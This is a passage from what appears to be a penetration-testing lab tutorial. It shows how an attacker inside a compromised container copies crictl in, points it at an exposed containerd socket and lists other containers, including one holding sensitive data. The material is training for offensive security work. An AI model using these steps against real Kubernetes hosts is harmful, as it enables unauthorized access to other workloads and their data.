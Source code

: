 > Listing 17 - Downloading crictl

Once downloaded, we'll need to transfer the tool to the target. While we won't have access to SSH in most real world scenarios, we do in this instance, so we'll use the **scp** command. We'll specify the port the container is listening on with **-P**, indicate which file we want to transfer (**crictl**), and prepend the location with the SSH target (**root@exposed_socket:/usr/bin/crictl**).

```
kali@kali:~$ scp -P 32222 crictl root@exposed_socket:/usr/bin/crictl
root@exposed_socket's password:
crictl                  100%   47MB 163.2MB/s   00:00
```

> Listing 18 - Transferring crictl

Next, we'll go back to the SSH session on our victim container. Since crictl can interact with multiple runtimes, we need to specify which socket it should interact with. To do this, we need to create a _YAML_ configuration file in **/etc/crictl.yaml**. The _runtime-endpoint_ parameter will need to be set to the path of the socket (**/run/containerd/containerd.sock**) with **unix://** to clarify that this is a _Unix socket_.

```
victim:~# echo "runtime-endpoint: unix:///run/containerd/containerd.sock" > /etc/crictl.yaml
```

> Listing 19 - Configuring the crictl Client

At this point, we should be able to interact with the socket. Let's try listing the running containers with the **ps** subcommand within **crictl**.

```
victim:~# crictl ps
CONTAINER           IMAGE             STATE      NAME             
338ed73d2cd4c       d0af5b8ae9b54     Running    victim
fc9d6defaa941       a6215f271958c     Running    sensitive-data-handler 
ea178e2f7f8c5       b19406328e70d     Running    coredns
75c78feb64647       ba04bb24b9575     Running    storage-provisioner
f04e071fd86b0       7ba9b35cf55e6     Running    kindnet-cni
ed2ae7da4d031       68348500321ce     Running    kube-proxy
fb9f5fbeeb938       c6c296d440245     Running    kube-controller-manager
f845b345af4f2       0b1fb9b45fa3d     Running    kube-apiserver
a10d82fffbf7f       8e041a3b0ba8b     Running    etcd
93e70dd44fa8f       873dc124ec692     Running    kube-scheduler
...
```

> Listing 20 - Listing Containers Running on Target

The output in the listing above has unnecessary columns removed for ease of reading.

The ps command shows several containers. The containers prepended with **kube** indicate that this is most likely the runtime used by Kubernetes. This means that we won't be able to start new containers since the garbage collection will remove them.

In this list, we find many standard Kubernetes containers and two non-standard ones. The first is the victim container, which we are currently running in. The next is the sensitive-data-handler container. We don't know what that is, but it sounds interesting.
